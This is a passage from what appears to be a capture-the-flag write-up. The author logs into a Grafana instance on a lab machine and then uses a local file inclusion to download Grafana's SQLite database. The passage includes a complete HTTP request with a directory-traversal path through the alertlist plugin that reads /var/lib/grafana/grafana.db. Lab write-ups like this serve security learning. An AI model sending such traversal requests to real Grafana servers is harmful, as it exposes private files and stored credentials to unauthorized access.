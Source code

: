 ![Logged In](/assets/images/Ambassador/LoggedInGrafana.png "Logged In")

I spent some time trying to find something in Grafana. Maybe I could use it to run some commands on the server. But I did not find anything. 

After a while, I went back to the LFI and used it to extract an SQLite database.

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2F
Upgrade-Insecure-Requests: 1
```
